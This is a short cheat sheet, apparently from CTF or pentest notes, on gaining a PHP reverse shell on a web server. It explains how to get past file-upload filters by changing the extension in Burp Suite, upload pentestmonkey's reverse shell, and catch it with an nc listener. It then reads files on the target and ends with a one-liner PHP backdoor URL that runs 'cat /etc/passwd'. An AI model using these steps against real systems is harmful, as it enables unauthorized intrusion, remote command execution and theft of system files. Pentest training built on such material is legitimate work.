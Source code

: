 # Reverse shell

Check if you can upload a **.php** file to the server, if not you can change the extension to **.jpg** and intercept it with burp suite to change it back to **.php**

Find a script for reverse shell based on languange (php, python, ruby, perl, bash, etc) for this example we will use **PHP**.

Copy the script to a file and upload it to the server.(name it shell.php)

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php


Change the ip and port to your own 

Type in the cmd **ifconfig** to find the ip address connected to the server/network. If the ip is 10.100.13.200 then change the **IP** in the script file to it.

    IP  : 10.100.13.200

    Port : 1234

Go to this link for the tutorial

https://pentestmonkey.net/tools/web-shells/php-reverse-shell

After uploading the script click on it in the browser and then type in the cmd **nc -nvlp 1234** to listen for the reverse shell. 

    nc -nvlp 1234

In the command line from the shell type this command to find the session_save_path:

    php -r 'echo session_save_path(), "\n";' 

Finally you can check the directory with **ls** and print the content with **cat**.

    ls 
    cat [file name]

<br/>

# One Liner Php shell

Search for **One Liner Php Shell** on google and download it.

    https://gist.github.com/sente/4dbb2b7bdda2647ba80b

Usage:

    <!-- http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd -->